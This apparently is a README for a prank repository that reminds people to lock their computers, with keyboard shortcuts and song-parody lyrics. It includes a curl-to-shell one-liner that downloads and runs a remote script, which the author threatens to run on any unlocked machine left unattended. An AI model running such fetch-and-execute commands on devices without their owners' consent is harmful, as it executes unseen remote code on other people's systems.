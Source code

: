 # This is PSA

```
It's a moment when I show up, got 'em sayin', "Wow" (Wow, wow)
```

Don't worry, I haven't done anything _too_ bad.

It's very simple to lock your computer before getting up and going somewhere else without it. Unfortunately, not many people do this. What a shame.

On Macs, it's as simple as `cmd + ctrl + q`.

On Windows, it's as simple as `win + L`.

This is my declaration (to the tune of Sunflower by Post Malone):

```
Needless to say, I keep it in git
Security boo boo, nevertheless (yeah)
Callin' a shell script, baby, you'll be hacked (hacked)
Check your background, baby, you've been hacked (hacked)
```

I will run this if you leave your computer unlocked and walk away:

```
sh -c "$(curl -fsSL https://raw.githubusercontent.com/chrisarevir/malone-protocol/master/protocol.sh)"
```

While we may be getting more secure to cyber-based espionage, there's nothing that beats a little social engineering. Letting the wrong person get physical access to your computer can be harmful, even if not immediately apparent.

```
http://bit.ly/g-wagon
```

<iframe width="560" height="315" src="https://www.youtube.com/embed/4jArvf14WvE?autoplay=1" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
